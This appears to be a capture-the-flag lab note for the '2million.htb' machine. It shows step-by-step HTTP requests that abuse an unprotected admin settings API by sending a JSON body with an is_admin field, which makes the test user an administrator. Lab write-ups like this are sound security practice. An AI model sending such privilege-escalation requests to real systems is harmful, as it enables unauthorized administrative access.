 Focusing on attempting to exploit this `api` to make me an `admin`

![[Pasted image 20250418194741.png]]
Original Request
```http
GET /api/v1 HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jmfes0rti5g4lmau3vesfhp6fk
Connection: keep-alive
```
modified to test with
```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jmfes0rti5g4lmau3vesfhp6fk
Connection: keep-alive
```
now sending this through `repeater` shows that  `content type` is wrong
![[Pasted image 20250418195051.png]]
if we `steal` the `content type` it works and we get another message
![[Pasted image 20250418195144.png]]
now i need to add an email, but need to figure out how

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jmfes0rti5g4lmau3vesfhp6fk
Connection: keep-alive
Content-Type: application/json
```
this is what `chatgpt` came up with for formatiing
```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jmfes0rti5g4lmau3vesfhp6fk
Connection: keep-alive
Content-Type: application/json
Content-Length: 50

{
  "email": "test@test.local"
}
```
after adding an `email` it shows that we are missing an addition parameter `is_admin`
![[Pasted image 20250418195435.png]]
trying to add `is_admin` and it needs commas to work
```bash
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jmfes0rti5g4lmau3vesfhp6fk
Connection: keep-alive
Content-Type: application/json
Content-Length: 52

{
  "email": "test@test.local",
  "is_admin":true
}
```
need to change `true` to  `1`
![[Pasted image 20250418195740.png]]
now i believe the `test` user is an `admin` but need to test it
![[Pasted image 20250418195807.png]]
now i need tocheck if we're actually admin with this `api`
![[Pasted image 20250418195959.png]]
and we are
![[Pasted image 20250418200027.png]]